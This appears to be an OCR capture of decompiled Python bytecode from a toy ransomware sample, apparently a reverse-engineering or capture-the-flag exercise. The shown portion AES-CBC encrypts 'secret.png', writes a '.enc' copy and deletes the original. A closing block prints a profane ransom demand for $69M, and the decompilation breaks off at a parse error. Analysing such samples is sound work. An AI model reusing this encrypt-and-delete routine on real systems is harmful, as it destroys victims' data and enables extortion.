 ```
          42  LOAD_GLOBAL              AES
          44  LOAD_ATTR                MODE_CBC
          46  LOAD_FAST                'iv'
          48  CALL_METHOD_3         3  ''
          50  STORE_FAST               'cipher'

  21      52  LOAD_FAST                'cipher'
          54  LOAD_METHOD              encrypt
          56  LOAD_FAST                'padded_data'
          58  CALL_METHOD_1         1  ''
          60  STORE_FAST               'encrypted_data'
          62  POP_BLOCK        
          64  BEGIN_FINALLY    
        66_0  COME_FROM_WITH       12  '12'
          66  WITH_CLEANUP_START
          68  WITH_CLEANUP_FINISH
          70  END_FINALLY      

  23      72  LOAD_FAST                'file'
          74  LOAD_METHOD              close
          76  CALL_METHOD_0         0  ''
          78  POP_TOP          

  25      80  LOAD_FAST                'file_path'
          82  LOAD_STR                 '.enc'
          84  BINARY_ADD       
          86  STORE_FAST               'encrypted_file_path'

  26      88  LOAD_GLOBAL              open
          90  LOAD_FAST                'encrypted_file_path'
          92  LOAD_STR                 'wb'
          94  CALL_FUNCTION_2       2  ''
          96  SETUP_WITH          114  'to 114'
          98  STORE_FAST               'encrypted_file'

  27     100  LOAD_FAST                'encrypted_file'
         102  LOAD_METHOD              write
         104  LOAD_FAST                'encrypted_data'
         106  CALL_METHOD_1         1  ''
         108  POP_TOP          
         110  POP_BLOCK        
         112  BEGIN_FINALLY    
       114_0  COME_FROM_WITH       96  '96'
         114  WITH_CLEANUP_START
         116  WITH_CLEANUP_FINISH
         118  END_FINALLY      

  29     120  LOAD_GLOBAL              os
         122  LOAD_METHOD              remove
         124  LOAD_FAST                'file_path'
         126  CALL_METHOD_1         1  ''
         128  POP_TOP          

Parse error at or near `BEGIN_FINALLY' instruction at offset 64


if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')

```